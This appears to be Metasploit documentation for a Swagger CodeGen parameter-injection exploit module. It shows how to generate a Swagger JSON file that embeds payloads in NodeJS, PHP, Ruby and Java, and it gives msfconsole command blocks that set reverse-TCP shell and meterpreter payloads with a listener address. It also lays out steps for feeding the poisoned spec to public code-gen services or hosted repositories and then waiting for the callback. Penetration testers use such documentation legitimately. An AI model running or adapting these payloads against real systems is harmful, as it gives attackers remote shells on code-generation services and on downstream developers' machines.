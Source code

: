 The [Swagger CodeGen parameter injector module](../../../../../../metasploit-framework/modules/exploits/multi/fileformat/swagger_param_inject.rb) generates a Swagger JSON file with embedded Metasploit payloads.

In the typical case, a Swagger document defines an API.  Swagger can be automatically consumed to generate client/server code, testing and scaffolding in APIs by companies eager to provide value to the increasing need for scalable API deployment and testing.

Currently, this module supports 4 languages for delivery: NodeJS, PHP, Ruby, and Java.  These are specified by the PAYLOAD set for the exploit module.


## Verification Steps

All exploits assume a bind or reverse-tcp callback handler, with preference on reverse-tcp. 

1. Start msfconsole
2. Start a callback handler listening for a the appropriate payload (e.g.)

```
use exploit/multi/handler  
set PAYLOAD nodejs/shell_reverse_tcp

set LHOST 192.168.68.138 
set LPORT 4444

run 
```
3. Pick a target 

## Targets

**NodeJS** 

This attack injects a payload into javascript by terminating a URL path string.


```

use exploit/multi/fileformat/swagger_param_inject
set TARGET 0
set PAYLOAD nodejs/shell_reverse_tcp
set INFO_VERSION "1.0.0"
set SWAGGER_HOST "localhost"
run 
```

**PHP** 

This attack injects a payload into PHP multiline comment area.


```

use exploit/multi/fileformat/swagger_param_inject
set TARGET 1
set PAYLOAD php/meterpreter/reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

**ruby** 

This attack injects a payload into ruby multiline comment area.


```

use exploit/multi/fileformat/swagger_param_inject
set TARGET 3
set PAYLOAD ruby/shell_reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

**Java** 

This attack injects a payload into Java by terminating a URL path string.


```

use exploit/multi/fileformat/swagger_param_inject
set TARGET 2
set PAYLOAD java/jsp_shell_reverse_tcp 
set SWAGGER_HOST "localhost"
run 
```

## Quick Test

Use the online [editor.swagger.io](http://editor.swagger.io) to upload your swagger document, and generate pre-built code bases from the document.  The swagger editor leverages [generator.swagger.io](http://generator.swagger.io) to build these clients & servers automatically from the document, and published downloadable artifacts of these code bases.


## Scenarios

Effective against services with either these dependencies

*  [swagger-codegen](https://github.com/swagger-api/swagger-codegen)
  * public API [generator.swagger.io](http://generator.swagger.io/)
  * public docker container [swagger-generator/](https://hub.docker.com/r/swaggerapi/swagger-generator/)
* [swagger-test-templates](https://github.com/apigee-127/swagger-test-templates)

**Possible Attack approach.**

1. Research the target environment and component dependencies.  
2. Setup appropriate payload callback listener.
3. generate the appropriate swagger document with associated MS payload (see above for examples)


**Against a webservice (2nd order attack / blind code-gen)**

*Who knows what insecurely configured code-gen Docker containers hosted in data compute or API broker cluster could do if given the chance...*
 
4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

**Against a code repository or public hosting of spec**

*People and Robots trust swagger to build clients, servers, mocks, and more.  Publicly hosted specs should be verified as to not corrupt automatic code generation.*

4. Feed the document to the service in service appropriate submission of Swagger documents.  This is most often accoplished by defining a Mock, Test or Pass-Thru service automatically constructed by the swagger document definition.
5. Wait for callback handler event.  

